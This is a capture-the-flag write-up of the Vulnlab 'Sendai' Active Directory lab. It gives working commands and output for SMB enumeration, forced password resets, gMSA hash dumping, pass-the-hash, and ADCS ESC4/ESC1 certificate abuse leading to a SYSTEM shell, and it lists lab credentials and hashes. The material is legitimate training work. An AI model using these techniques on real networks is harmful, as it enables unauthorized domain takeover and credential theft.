


| Machine Name | Difficulty | Date Started | Date Completed |
| ------------ | ---------- | ------------ | -------------- |
| Sendai       | Medium     | 08/01/2025   | 09/01/2025     |
*Vulnlab.com* 

---

**Learning Points:**  

- Using the `impacket-smbpasswd` tool to change user passwords without knowing the old password (changing passwords using null sessions).  
- Abusing the `ReadGMSAPassword` privilege by using [gMSADumper.py](https://github.com/micahvandeusen/gMSADumper) to dump NTLM hashes of users in Active Directory.  
- Exploiting the ADCS ESC4 vulnerability.  
- Using the [PrivescCheck.ps1](https://github.com/itm4n/PrivescCheck/blob/master/PrivescCheck.ps1) script for privilege escalation in Windows.

---

**Attack Path:**  
1. Identify open ports using Nmap and enumerate open SMB shares.  
2. Use a SID brute-force attack to dump the domain users.  
3. Analyze the note found in the SMB share and use CrackMapExec to check user login statuses, identifying two users who required password resets.  
4. Use `impacket-smbpasswd` to reset the passwords for the identified users.  
5. Enumerate SMB shares as those users and find a `sqlconfig` file containing credentials.  
6. Run BloodHound to graph the AD structure and identify an attack path.  
7. Abuse the GenericAll privilege to exploit the `ReadGMSAPassword` capability and dump the hash of `mgtsvc$`. Use the hash to log in and retrieve the user flag.  
8. Enumerate the ADCS configuration and find an ESC4-vulnerable certificate. Exploit it.  
9. Use the vulnerable certificate to impersonate the administrator by exploiting the ESC4 and ESC1 vulnerabilities, obtaining the administrator's hash.  
10. Use `impacket-psexec` to get a shell as `NT AUTHORITY\SYSTEM` and retrieve the root flag.  

---

**Activity Log:**  
- Started an Nmap scan to enumerate open ports.  
- Used CrackMapExec to enumerate open shares as a null user and discovered that we could access the `IPC$`, `sendai`, and `users` shares.  
- Downloaded all accessible files to Falcon for further enumeration and started analyzing the files.  
- Tried to perform an AS-REP roasting attack but failed.  
- Launched a SID brute-force attack using LookupSid and successfully dumped the users of the domain.  
- Based on the note found on the SMB share, used CrackMapExec to check the users' login status and discovered that two users, `Elliot.Yates` and `Thomas.Powell`, were required to change their passwords.  
- Used the usual `smbpasswd` tool to change the password of a user (pressed Enter to skip the old password) on the [[Baby - Vulnlab.com]] machine, but encountered a login failure error.  
- Used the `impacket-smbpasswd` tool and successfully changed the passwords for both users.  
- Used CrackMapExec to confirm that the credentials were working.  
- Enumerated the available shares for those users and found that we could access the `config` share with READ/WRITE permissions for both users.  
- Found a `.sqlconfig` file in the share and copied it to Falcon.  
- The file contained the credentials of the user `sqlsvc`, which were confirmed using CrackMapExec.  
- Ran BloodHound-python to enumerate the AD network using the BloodHound graph.  
- While analyzing the BloodHound graph with "Shortest paths from owned principals," identified an attack path.  
- Added our user to the ADMSVC group by abusing the GenericAll privilege.  
- Used [gMSADumper.py](https://github.com/micahvandeusen/gMSADumper) to dump the NTLM hash of the user `mgtsvc$`.  
- Used Evil-WinRM to perform a pass-the-hash attack, accessed the DC as the `mgtsvc$` user, and retrieved the `Sendai_User` flag from `C:\`.  
- Uploaded and ran WinPEAS but found nothing. Uploaded [PrivescCheck.ps1](https://github.com/itm4n/PrivescCheck/blob/master/PrivescCheck.ps1) to the DC and ran it using the PS shell.  
- While checking the processes, observed the credentials of the user `clifford.davey` being passed.  
- While analyzing the BloodHound graph, discovered that the `clifford.davey` user is a member of the `CA_OPERATORS` group.  
- Used `certipy-ad` to identify the vulnerable certificates, as we were a member of the `CA_Operators` group.  
- Found that the SendaiComputer certificate template was vulnerable to an ESC4 attack, as `SENDAI.VL\\CA-Operators` had write permissions to it.  
- Used Certipy to modify the configuration of the template to allow domain users to enroll for it and impersonate any user. This allowed us to exploit it using the ESC1 vulnerability.  
- Requested the vulnerable certificate, impersonating the administrator user.  
- Successfully requested the administrator's hash using the exported certificate.  
- Tried using Evil-WinRM with pass-the-hash but failed.  
- Used Impacket-psexec to get a shell as `NT AUTHORITY\SYSTEM` on the DC and retrieved the root flag.  

---

*Default Nmap scan :*
```
# Nmap 7.94SVN scan initiated Wed Jan  8 23:38:16 2025 as: nmap -sC -sV -oA default 10.10.121.46
Nmap scan report for 10.10.121.46
Host is up (0.19s latency).
Not shown: 986 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-08 18:08:31Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc.sendai.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sendai.vl
| Not valid before: 2025-01-08T17:54:13
|_Not valid after:  2026-01-08T17:54:13
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_ssl-date: TLS randomness does not represent time
|_http-title: IIS Windows Server
| ssl-cert: Subject: commonName=dc.sendai.vl
| Subject Alternative Name: DNS:dc.sendai.vl
| Not valid before: 2023-07-18T12:39:21
|_Not valid after:  2024-07-18T00:00:00
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap
| ssl-cert: Subject: commonName=dc.sendai.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sendai.vl
| Not valid before: 2025-01-08T17:54:13
|_Not valid after:  2026-01-08T17:54:13
|_ssl-date: TLS randomness does not represent time
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sendai.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sendai.vl
| Not valid before: 2025-01-08T17:54:13
|_Not valid after:  2026-01-08T17:54:13
|_ssl-date: TLS randomness does not represent time
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc.sendai.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sendai.vl
| Not valid before: 2025-01-08T17:54:13
|_Not valid after:  2026-01-08T17:54:13
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=dc.sendai.vl
| Not valid before: 2025-01-07T18:03:13
|_Not valid after:  2025-07-09T18:03:13
|_ssl-date: 2025-01-08T18:09:54+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: SENDAI
|   NetBIOS_Domain_Name: SENDAI
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: sendai.vl
|   DNS_Computer_Name: dc.sendai.vl
|   DNS_Tree_Name: sendai.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2025-01-08T18:09:14+00:00
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-01-08T18:09:16
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: -1s, deviation: 0s, median: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan  8 23:39:57 2025 -- 1 IP address (1 host up) scanned in 101.47 seconds
```

Used CrackMapExec to enumerate open shares as a null user and observed that we can access the IPC$, Sendai, and Users shares.


```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Sendai]                          └─$ smbclient -N \\\\sendai.vl\\sendai
```

We downloaded all the accessible files to Falcon for further enumeration.



Started enumerating the files.


Tried to perform an ASREP roasting attack but failed.


We launched a SID brute-force attack using Lookupsid and successfully dumped the users of the domain.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Sendai]
└─$ impacket-lookupsid anonymous@sendai.vl -no-pass | awk -F'\\\\| ' '/SidTypeUser/ {print $3}'
Administrator
Guest
krbtgt
DC$
sqlsvc
websvc
Dorothy.Jones
Kerry.Robinson
Naomi.Gardner
Anthony.Smith
Susan.Harper
Stephen.Simpson
Marie.Gallagher
Kathleen.Kelly
Norman.Baxter
Jason.Brady
Elliot.Yates
Malcolm.Smith
Lisa.Williams
Ross.Sullivan
Clifford.Davey
Declan.Jenkins
Lawrence.Grant
Leslie.Johnson
Megan.Edwards
Thomas.Powell
mgtsvc$
```

Considering the note we found on the SMB share, we used CrackMapExec to check the users' login status and discovered that two users, `Elliot.Yates` and `Thomas.Powell`, were required to change their passwords.


We used the usual `smbpasswd` tool to change the password of the user (pressed Enter to skip the old password) on the [[Baby - Vulnlab.com]] machine, but we encountered a login failure error.


We used the `impacket-smbpasswd` tool and were successfully able to change the passwords for the two users.

```
impacket-smbpasswd sendai.vl/Elliot.Yates@dc.sendai.vl -newpass 'Password@123'
```


We used CrackMapExec to confirm that our credentials were working.


We enumerated the available shares for those users and found that we could access the `config` share, with READ/WRITE permissions from both users.


We found a `.sqlconfig` file in the share and copied it to Falcon.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Sendai/smb-config]
└─$ smbclient -U 'Elliot.Yates' \\\\dc.sendai.vl\\config
Password for [WORKGROUP\Elliot.Yates]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jan  9 00:16:48 2025
  ..                                DHS        0  Wed Jul 19 19:41:25 2023
  .sqlconfig                          A       78  Tue Jul 11 18:27:11 2023

                7309822 blocks of size 4096. 603934 blocks available
```

The file contained the credentials of the user `sqlsvc`.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Sendai/smb-config]
└─$ cat .sqlconfig  
Server=dc.sendai.vl,1433;Database=prod;User Id=sqlsvc;Password=SurenessBlob85;
```

We confirmed the credentials using CrackMapExec as well.


#### Bloodhound Enumeration

We ran BloodHound-python to enumerate the AD network using the BloodHound graph.

```
bloodhound-python -d 'SENDAI.VL' -u 'Elliot.Yates' -p 'Password@123' -ns 127.0.0.1 -dc dc01.sendai.vl -c all
```

```
dnschef --fakeip 10.10.76.196
```


While enumerating the BloodHound graph with "Shortest paths from owned principals," we were able to identify the following attack path:


Added our user to the ADMSVC group by abusing the GenericAll privilege.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Sendai]
└─$ net rpc group addmem "ADMSVC" "ELLIOT.YATES" -U "SENDAI.VL"/"Elliot.Yates" -S "10.10.126.132"
                
Password for [SENDAI.VL\Elliot.Yates]:
```

We used the [gMSADumper.py](https://github.com/micahvandeusen/gMSADumper) to dump the NTLM hash of the user `mgtsvc$`.

```
┌──(destiny㉿falcon)-[~/tools-backup/gMSADumper]
└─$ python3 gMSADumper.py -u 'Elliot.Yates' -p 'Password@123' -d sendai.vl
Users or groups who can read password for mgtsvc$:
 > admsvc
mgtsvc$:::ce0b2ff6ebd759c1b09b16e7173070f2
mgtsvc$:aes256-cts-hmac-sha1-96:31aadec6c9cae2c03f9854ebd5b2d30c977ef3cc581c7916ef4e117dbdee820f
mgtsvc$:aes128-cts-hmac-s
```

We were able to use Evil-WinRM to perform a pass-the-hash attack, access the DC as the `mgtsvc$` user, and retrieve the Sendai_User flag from `C:\`.


Uploaded and ran WinPEAS but found nothing. We uploaded [PrivescCheck.ps1](https://github.com/itm4n/PrivescCheck/blob/master/PrivescCheck.ps1) to the DC and ran it using the PS shell.

```
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
```

While checking the processes, we were able to see the credentials of the user `clifford.davey` being passed.


```
clifford.davey:RFmoB2WplgE_3p
```

While looking at the BloodHound graph, we were able to see that the `clifford.davey` user is a member of the `CA_OPERATORS` group.


We used `certipy-ad` to identify the vulnerable certificates since we were a member of the CA_Operators group.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Sendai]
└─$ certipy-ad find -u 'clifford.davey'@SENDAI.VL -p RFmoB2WplgE_3p -dc-ip 10.10.126.132 -stdout -vulnerable
```



We discovered that the SendaiComputer certificate template was vulnerable to an ESC4 attack, as `SENDAI.VL\\CA-Operators` had write permissions to it.  

Using Certipy, we modified the configuration of this template to allow domain users to enroll for it and impersonate any user so that we can exploit it using the ESC1.

```
certipy-ad template -u clifford.davey -target dc.sendai.vl -dc-ip 10.10.126.132 -template SendaiComputer
```

Now, we were able to exploit this as an ESC1 certificate vulnerability.


We requested the vulnerable certificate, impersonating the administrator user.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Sendai]
└─$ certipy-ad req -u 'clifford.davey' -p RFmoB2WplgE_3p -dc-ip 10.10.126.132 -ca sendai-DC-CA -template SendaiComputer -upn administrator -target dc.sendai.vl -key-size 4096
Certipy v4.8.2 - by Oliver Lyak (ly4k)

/usr/lib/python3/dist-packages/certipy/commands/req.py:459: SyntaxWarning: invalid escape sequence '\('
  "(0x[a-zA-Z0-9]+) \([-]?[0-9]+ ",
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 5
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Then, we were able to request the administrator's hash using the exported certificate.


Tried using Evil-WinRM with pass-the-hash but failed.  

We used Impacket-psexec and were able to get a shell as `NT AUTHORITY\SYSTEM` on the DC and retrieved the root flag.


---